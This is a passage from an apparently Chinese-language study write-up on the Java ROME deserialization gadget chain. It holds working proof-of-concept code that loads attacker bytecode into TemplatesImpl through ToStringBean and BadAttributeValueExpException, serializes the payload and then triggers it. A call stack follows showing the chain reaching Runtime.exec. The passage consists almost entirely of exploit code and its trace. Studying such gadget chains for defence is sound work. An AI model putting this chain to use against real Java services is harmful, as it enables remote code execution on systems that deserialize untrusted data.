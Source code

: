 ```plain
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);

        // 创建BadAttributeValueExpException对象
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFiled(badAttributeValueExpException, "val", toStringBean);

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("BadAttrExp.bin"));
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("BadAttrExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<clinit>:-1, cccc
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
```